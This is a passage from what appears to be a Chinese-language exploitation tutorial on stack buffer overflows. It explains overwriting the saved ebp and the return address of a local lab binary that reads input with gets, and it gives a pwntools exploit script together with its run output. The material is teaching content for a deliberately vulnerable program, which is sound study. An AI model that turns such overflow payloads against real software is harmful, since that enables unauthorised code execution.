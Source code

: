 那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于 gets 会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将 saved ebp 覆盖为 bbbb，将 retaddr 覆盖为 success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B 在内存中的形式是

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将 \x3b 作为一个字符输入进去。那么此时我们就需要使用一波 pwntools 了(关于如何安装以及基本用法，请自行 github)，这里利用 pwntools 的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```
